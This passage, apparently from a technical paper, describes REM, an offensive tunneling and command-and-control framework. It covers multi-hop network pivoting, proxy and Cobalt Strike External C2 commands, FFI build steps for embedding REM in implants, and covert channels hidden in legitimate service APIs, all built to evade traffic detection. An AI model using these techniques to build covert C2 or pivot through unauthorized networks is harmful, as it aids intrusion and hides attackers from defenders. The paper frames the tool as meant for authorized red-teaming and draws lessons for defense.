In complex network confrontation environments, attackers often face the challenge of multi-level network penetration. Traditional cascading tools have fundamental limitations:

**Evolution of Traditional Cascading Tools:**

- **Early Tools:** Relay-style port forwarding tools like `lcx`, `ew`.
- **Modern Tools:** Memory-resident SOCKS5 C2-style cascading like `Stowaway`, `venom`.
- **Common Limitations:** Reliance on fixed protocol stacks, lack of flexible combination capabilities.

Core Issues of Traditional Cascading:

Traditional cascading modes suffer from exposed protocol signatures and performance bottlenecks. Regarding signatures, protocols like smux/yamux have fixed characteristics, static protocol stacks, and predictable handshake patterns that are easily identified by detection devices. regarding performance, accumulated latency across multiple layers, protocol conversion overhead, and single-point-of-failure risks lead to performance loss and stability issues in actual use. These fundamental limitations prompted the REM architecture to rethink cascading network design.

**Analysis of Actual Cascading Scenarios**

Scenario 1: Standard Three-Level Network Penetration

Topology: A (External Server) -- B (Perimeter) -- C (Core Internal)

Plaintext

```
Node A (External)
      |
Node B (Perimeter)
      |
Node C (Core Internal)
```

**REM Unified Network Protocol Stack**

Plaintext

```
REM Console <--> REM Agent <--> REM Agent <--> Target Node
(Listen Mode)    (Bi-directional)   (Direct Access)
(Protocol Relay) (Protocol Convert)
```

_Unified Transport Layer Abstraction_

Scenario 2: WebShell Cascading Breach

(Diagram implied: WebShell acts as a node in the chain)

Infinite Combination of Transport Media

The REM architecture supports flexible combinations of multiple transport media: TCP, UDP, ICMP, WebSocket, SMB Named Pipes, HTTP API, etc. Any medium with data exchange capability can become a cascading node, allowing attackers to build complex network topologies and reorganize originally isolated network zones into a unified attack infrastructure, significantly expanding the boundaries of network-side confrontation operations.

### 3.4 C2 Infrastructure Integration

REM provides three different levels of integration schemes for C2 frameworks, each with specific technical advantages and applicable scenarios.

Proxy Channel Reuse

Establish a proxy channel via the REM binary, allowing C2 to reuse it via standard HTTP/SOCKS proxy protocols. This is how the vast majority of proxy tools are currently used.

_Technical Implementation:_

Bash

```
# REM starts proxy service
./rem -c [rem_link] -m proxy -l socks5://:1080
./rem -c [rem_link] -m proxy -l http://:8080
```

- **Protocol Standardization:** Uses standard HTTP/SOCKS5 proxy protocols; C2 frameworks need no modification.
- **Port Mapping:** REM listens on specified ports, forwarding C2 traffic to the target network.
- **Protocol Conversion:** REM internally handles the conversion from C2 protocol to transport protocol.
- **Multi-Protocol Support:** Supports both HTTP and SOCKS5 proxies, adapting to different C2 framework requirements.

External C2 Protocol Overloading

Code: https://github.com/chainreactors/rem/blob/master/protocol/serve/externalc2/externalc2.go

Official Docs: https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/listener-infrastructure_external-c2.htm

Uses the CobaltStrike External C2 mechanism to overload the C2 communication channel with REM as a special application layer protocol.

_Technical Implementation:_

Bash

```
# REM constructs External C2 channel
./rem -c [rem_link] -m proxy -l cs://:12345 -r raw://
```

_Requires separate Implant (self-implemented) and channel (REM-based)._

Embedded into Arbitrary C2 Implant

Export REM's core API as a standard FFI interface via CGO, achieving deep integration with any C2 Implant.

FFI Interface Design

Code: https://github.com/chainreactors/rem/blob/master/cmd/export/main.go

**FFI Interface (based on actual signature implementation):**


```c
// REM Proxy Connect - Returns Agent ID, NULL on failure
char* RemDial(char* cmdline);

// Memory Proxy Connect - Returns connection handle, 0 on failure
int MemoryDial(char* memhandle, char* dst);

// Memory Data Read - Returns bytes read, 0 on failure
int MemoryRead(int chandle, void* buf, int size);

// Memory Data Write - Returns bytes written, 0 on failure
int MemoryWrite(int chandle, void* buf, int size);

// Close Memory Connection - Returns 0 on success, error code on failure
int MemoryClose(int chandle);

// Cleanup all Agent connections
void CleanupAgent();
```

**Compilation:**


```bash
# Compile Dynamic Link Library
go build -buildmode=c-shared -o rem.dll -ldflags "-s -w" .\cmd\export\
# Compile Static Link Library
go build -buildmode=c-archive -o rem.a -ldflags "-s -w" .\cmd\export\
```

**Actual Application Example: Rust Calling FFI in IoM**

```rust
extern "C" {
    fn RemDial(cmdline: *const c_char) -> (*mut c_char, c_int);
    fn MemoryDial(memhandle: *const c_char, dst: *const c_char) -> (c_int, c_int);
    fn MemoryRead(handle: c_int, buf: *mut c_void, size: c_int) -> (c_int, c_int);
    fn MemoryWrite(handle: c_int, buf: *const c_void, size: c_int) -> (c_int, c_int);
}
```

In the IoM (Implants of Mine) project, calling REM's FFI interface via Rust achieved cross-language deep integration, encapsulating REM's network communication capabilities into low-level APIs similar to `libsocket`. Any Implant can obtain advanced network functions with near-zero performance loss through simple function calls.

Through FFI API overloading, REM encapsulates network communication capabilities into standard interfaces. This deep integration transforms REM from a C2 communication enhancement tool into a C2 infrastructure component, providing excellent communication capabilities and covertness for modern C2 frameworks.

### 3.5 Transport Layer Implementation Based on Arbitrary Channels

#### 3.5.1 Theoretical Basis of Arbitrary Channel Abstraction

An important feature of the REM architecture is: Theoretically, as long as data exchange exists, a REM transport layer can be built. This design philosophy effectively breaks the restrictions of traditional network tools on transport protocols, redefining "data exchange media" as "transport layer protocols."

SMB Named Pipe Case

The REM transport layer implemented based on remote SMB named pipes demonstrates REM's arbitrary channel abstraction capability.

Code: https://github.com/chainreactors/rem/blob/master/protocol/tunnel/unix/unix_windows.go

#### 3.5.3 Expanding the Transport Layer Protocol Ecosystem

**Implemented Transport Protocols:**

- TCP
- UDP
- ICMP
- WebSocket
- SMB Named Pipe
- Unix Socket
- DNS (DoH)
- .....

#### 3.5.4 lolC2: Duplex Channel Application of ARQ Protocol

The core idea of **lolC2** (Living off the Land C2) is using the original functions of legitimate services to exchange data, masquerading attack traffic as normal business traffic. In the REM architecture, this is a typical application scenario for the ARQ protocol from Section 2.2.

Technical Implementation Principle:

Many legitimate service APIs are essentially half-duplex channels—allowing only the client to initiate requests (e.g., HTTP protocol, webhooks, social media APIs). Through the ARQ protocol implemented in Section 2.2, REM encapsulates these half-duplex channels into duplex channels:

- **HTTP Polling Mode:** Client periodically polls the server to retrieve data, simulating bidirectional communication.
- **Webhook Callback Mechanism:** Uses webhook functions to enable server active push to clients.
- **Social Media API:** Establishes covert channels via API interactions like comments and posts.

Role of ARQ Duplexing:

The key role of the ARQ protocol here is to provide reliability guarantees and duplex communication capabilities for these unidirectional mechanisms. Through buffer management, data frame encapsulation, and polling control, channels that could originally only transmit unidirectionally can simulate stable bidirectional communication, providing standard transport layer services for upper-layer applications.

This allows any legitimate service capable of data exchange to become a REM transport layer, providing immense flexibility for covert communication.

This arbitrary channel abstraction capability elevates REM from a "network proxy tool" to a "network protocol reconstruction platform," providing significant flexibility and expansion space for network-side confrontation operations.

---

## 4. Conclusion and Vision

### 4.1 REM

The first line of code for REM was written in 2021. In the interim, it underwent three or four major breakthroughs and reconstructions in engineering and design philosophy, finally forming a complete system.

Based on the protocol stack reconstruction in Chapter 2 and the application scenarios in Chapter 3, REM has formed a complete attack-oriented network confrontation architecture. The core features lead to a fundamental shift in confrontation dimensions:

- **Boundary Dissolution:** by defining the `net.Conn` interface as a unified boundary, REM allows any medium to become a transport layer, thoroughly dissolving defense systems based on protocol allowlisting.
- **Feature Concealment:** Programmable Hook mechanisms make traffic characteristics completely unpredictable through dynamic combinations of encryption and compression, thereby thoroughly hiding static fingerprints and behavioral patterns.
- **Topology Equality:** By abstracting nodes into equal "listening" and "connecting" roles, the same code can flexibly build any network topology, giving every node a dual identity and breaking the rigidity of traditional penetration paths.

When defense boundaries are dissolved, attack signatures are concealed, and network topologies become equal and fluid, REM is no longer simply evading rules. Instead, by destroying the certainty of protocols, patterns, and structures, it fundamentally dismantles the basic assumptions relied upon by traditional detection, pushing attack and defense from a technical competition to a new level.

### 4.2 Direction of Evolution

**From "Technology Stacking" to "System Reconstruction."** Breakthroughs in point technologies are becoming difficult and short-lived; truly lasting advantages come from systemic architectural innovation. Through the complete reconstruction of the protocol stack, REM gains not a point breakthrough, but an advantage across an entire dimension.

Traditional detection assumes "attack traffic has identifiable characteristics." When attack traffic can have no fixed characteristics, defenders need to shift from "identifying anomalies" to "proving normality." This requires deeper business understanding, more complete context correlation, and more proactive behavioral modeling.

REM's technology can be used for authorized penetration testing, Red/Blue team confrontation, security research, and defense capability verification. Simultaneously, these technologies remind the entire industry:

**Next-generation defense systems need to rethink basic assumptions.** If network traffic can have no fixed patterns, if transport media can be any channel, and if protocol processing can be completely decoupled—then detection systems based on protocol identification, traffic analysis, and behavioral patterns need to be rebuilt at a higher level.

This is not the end of technology, but a new starting point for the evolution of network-side confrontation.